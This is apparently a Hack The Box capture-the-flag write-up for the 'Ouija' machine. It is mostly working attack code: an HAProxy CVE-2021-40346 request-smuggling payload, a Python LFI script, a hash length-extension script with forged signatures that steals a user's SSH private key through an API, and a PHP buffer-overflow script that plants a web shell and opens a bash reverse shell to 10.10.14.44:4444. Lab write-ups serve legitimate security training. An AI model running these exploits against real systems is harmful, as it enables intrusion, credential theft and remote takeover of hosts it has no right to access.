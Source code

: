 
# Ouija

![logo](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Ouija/Ouija.png)

## nmap

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 6f:f2:b4:ed:1a:91:8d:6e:c9:10:51:71:d5:7c:49:bb (ECDSA)
|_  256 df:dd:bc:dc:57:0d:98:af:0f:88:2f:73:33:48:62:e8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
|_http-favicon: Unknown favicon MD5: 03684398EBF8D6CD258D44962AE50D1D
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdomains

- ouija.htb
- dev.ouija.htb
- gitea.ouija.htb

We can download the source code in gitea for the webside 8080. We see the version of HAProxy is `2.2.16`

## HAProxy 2.2.16: Integer Overflow Enables HTTP Smuggling — `CVE-2021-40346`

An integer overflow exists in HAProxy 2.0 through 2.5

[Critical vulnerability in HAProxy | JFrog Security Research Team](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

We can send a second reqest with a buff overflow in the Content-Length. The Content-Length for the second request need to be correct!

```
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
Content-Length: 68

GET http://dev.ouija.htb HTTP/1.1
h:GET / HTTP/1.1
Host: ouija.htb
```

Send this some times, because we need to catch the bot that send his request to trigger the smuggling (second request).

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Ouija/project.png)

We know see the local [http://dev.ouija.htb](http://dev.ouija.htb/) page.

## LFI

When we check the source code. There is a `file` url parameter for a LFI.

```html
</strong> <a href="http://dev.ouija.htb/editor.php?file=app.js" target="_blank">app.js</a>
            <strong>Init File:</strong> <a href="http://dev.ouija.htb/editor.php?file=init.sh" target="_blank">init.sh</a>
        </li>
```

We can read files with that. 

- [LFI.py](http://LFI.py) auto script
    
    ```python
    #!/usr/bin/python3
    import requests
    from time import sleep
    
    file = input("file: ")
    
    data = f'GET http://dev.ouija.htb/editor.php?file=../../../../../../../..{file} HTTP/1.1\r\nh:GET / HTTP/1.1\r\nHost: ouija.htb'
    
    headers = {
        'Host': 'ouija.htb',
        'Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa':'',
        'Content-Length': str(len(data))
    }
    #print("Content-Length: "+ str(len(data)))
    proxies = {
       'http': 'http://127.0.0.1:8080'
    }
    print("Give me some time...")
    while True:
        r = requests.post('http://ouija.htb/index.html',proxies=proxies, headers=headers, data=data, verify=False)
        if len(r.text) != 18017:
            print()
            print(r.text)
            break
    ```
    

Read the [init.sh](http://init.sh) in the same directory. 

```
GET http://dev.ouija.htb/editor.php?file=init.sh HTTP/1.1
h:GET / HTTP/1.1
Host: ouija.htb
```

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Ouija/editor.png)

```bash
#!/bin/bash

echo "$(date) api config starts" >>
mkdir -p .config/bin .config/local .config/share /var/log/zapi
export k=$(cat /opt/auth/api.key)
export botauth_id="bot1:bot"
export hash="4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1"
ln -s /proc .config/bin/process_informations
echo "$(date) api config done" >> /var/log/zapi/api.log

exit 1
```

We find a hash for the API at port 3000.

This script get use access with the hash end read the id_rsa from the user, because there is a file read API. 

- read_id_rsa.py
    
    ```python
    #!/usr/bin/python3
    
    import base64
    import requests
    import binascii
    import urllib.parse
    import json
    
    sigs = [b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00X::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00h::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00p::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00x::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x88::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x98::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa8::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb0::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb8::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc0::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd0::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd8::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe8::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xf0::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xf8::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x08::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x10::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x18::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 ::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01(::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x010::admin:True",
    b"bot1:bot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x018::admin:True"]
    
    hash = b"14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b"
    
    """
    for sig in sigs:
    
        url = 'http://ouija.htb:3000/file/get?file=.env'
        headers = {
            'ihash': hash,
            'identification': base64.b64encode(binascii.hexlify(sig))
        }
    
        response = requests.get(url, headers=headers)
    
        print(sigs.index(sig), response.text)
    """
    
    original_string = ".config/bin/process_informations/self/root/home/leila/.ssh/id_rsa"
    encoded_string = urllib.parse.quote(urllib.parse.quote(original_string))
    
    url = f'http://ouija.htb:3000/file/get?file={encoded_string}'
    headers = {
        'ihash': hash,
        'identification': base64.b64encode(binascii.hexlify(sigs[21]))
    }
    response = requests.get(url, headers=headers)
    print(json.loads(response.text)['message'])
    ```
    

After we got the id_rsa, we can login to the user leila from the gitea (/etc/passwd).

- `ssh leila@ouija.htb -i id_rsa`

→ user.txt

# Priv Esc

There is a local webserver on port 9999

## PHP Buff Overflow

Run this on the target to get a rev shell

```python
import requests
import time
import subprocess

url = 'http://127.0.0.1:9999/index.php'

def create_payload():
    payload = "cmd.php\n"
    payload = payload.ljust(0x70, "A")
    payload += "<?php system($_GET['cmd']);?>:"
    payload = payload.ljust(0xfff0, "A")
    return payload

def send_payload(payload):
    data = {"username":payload, "password":payload}
    r = requests.post(url, data=data)
    print('[-] Sent payload triggering buffer overflow...')

def main():
    exe_addr = "http://127.0.0.1:9999/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.44%2F4444%200%3E%261%22"
    listener = subprocess.Popen(["nc", "-nvlp", "4444"])
    time.sleep(2)
    p = requests.get(exe_addr)
    print('[-] Request revshell has been sent!')
    print('[-] Waiting for shell...')
    listener.wait()

if __name__ == '__main__':
    payload = create_payload()
    send_payload(payload)
    main()
```

→ root.txt
